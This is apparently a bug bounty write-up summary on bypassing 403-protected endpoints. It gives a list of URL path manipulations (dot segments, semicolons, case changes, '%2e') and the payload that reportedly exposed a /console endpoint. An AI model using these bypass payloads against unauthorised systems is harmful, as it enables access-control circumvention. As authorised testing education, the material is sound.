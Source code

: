 # Bypassing 403s like a PRO! ($2,100)

1. As usual, I begin my directory enumeration with the dirbuster wordlists and find a /console endpoint which returns a 403 response.
2. Ways to bypass 403 endpoints (If /path is blocked)
```
/path –> HTTP 403 Forbidden
/PATH –> HTTP 200 OK
/path/ –> HTTP 200 OK
/path/. –> HTTP 200 OK
//path// –> HTTP 200 OK
/./path/.. –> HTTP 200 OK
/;/path –> HTTP 200 OK
/.;/path –> HTTP 200 OK
//;//path –> HTTP 200 OK
/path.json –> HTTP 200 OK
```
3. I prefer using the 403 Bypasser Burp extension by Gil Nothmann to automate the bypass techniques.
4. What worked for me? Usage of a dot or %2e in the URL path:  `/%2e/console`
<h3>The submission was triaged quickly and categorized as a P1. I was later rewarded with a $2,100 bounty.</h3><br>

## Credit
Based on [Shrirang Diwakar](https://shrirangdiwakar.medium.com/bypassing-403s-like-a-pro-2-100-broken-access-control-66beef4afa8c)'s writeup.
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
